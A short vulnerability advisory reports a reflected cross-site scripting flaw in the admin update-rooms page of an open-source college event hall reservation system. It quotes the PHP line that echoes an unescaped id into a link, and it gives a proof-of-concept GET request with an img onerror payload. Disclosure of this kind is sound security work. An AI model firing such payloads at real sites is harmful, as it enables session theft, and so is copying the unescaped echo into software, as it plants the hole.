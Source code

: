 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS update-rooms.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/update-rooms.php

## Code
```php
<a class="btn btn-secondary"  href='rooms.php?id=<?php echo $id; ?>'>Cancel</a>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/update-rooms.php?id="><img+src%3dx+onerror%3dalert("NoChizPlz")> HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/1f386137-7c59-4429-9895-544f7706099c)

